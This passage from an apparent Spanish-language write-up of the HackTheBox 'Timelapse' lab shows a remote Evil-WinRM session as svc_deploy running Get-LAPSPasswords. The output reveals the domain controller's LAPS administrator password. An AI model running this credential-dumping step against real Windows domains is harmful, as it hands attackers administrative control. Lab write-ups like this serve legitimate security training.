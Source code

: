 Probando el GET-LAPSPassword para ver que contraseñas puede obtener, y obtenemos .IkjJZC#4C+E40La7$Dg/bnj

> *Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords

```console
Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA
```